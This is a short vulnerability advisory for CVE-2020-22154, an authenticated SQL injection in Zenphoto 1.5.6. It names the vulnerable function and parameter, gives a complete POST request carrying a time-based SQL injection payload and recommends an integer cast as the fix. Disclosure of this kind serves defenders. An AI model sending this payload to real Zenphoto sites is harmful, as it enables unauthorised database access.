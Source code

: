 ```yaml
---
cve: "CVE-2020-22154"
title: "Authenticated SQL injection in Zenphoto v1.5.6 and prior"
date: 2020-02-12
tags:
- cve
- sql injection
---
```

Zenphoto 1.5.6 was discovered to contain a SQL injection via the `postAlbumSort()` function in `/zp-core/admin-functions.php`.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22154

<hr />

**Description:**  
The function `postAlbumSort()` triggers a SQL query using the POST parameter `order`, unfortunately his value is not sanitized when building the query.

**Details:**  
File: `/zp-core/admin-functions.php`  
Function: `postAlbumSort()`  
Parameter: `order`  

**Payload:**  
```
POST /zp-core/admin-edit.php?page=edit&action=savealbumorder
XSRFToken=bfc6ec5b3fdffce396ca60b824b68e3eb18a5d4c&checkallaction=noaction&newtag_mass_tags_=&massownerselect=admin&order=id%5B2 and (select sleep(5))%23%5D%3Dnull%26id%5B1%5D%3Dnull&update=Save+Order
```

**Recommendation:**  
Cast the value to integer.

**PoC:**  
![cve-2020-22154 Zenphoto sqli](/images/cve-2020-22154.png)
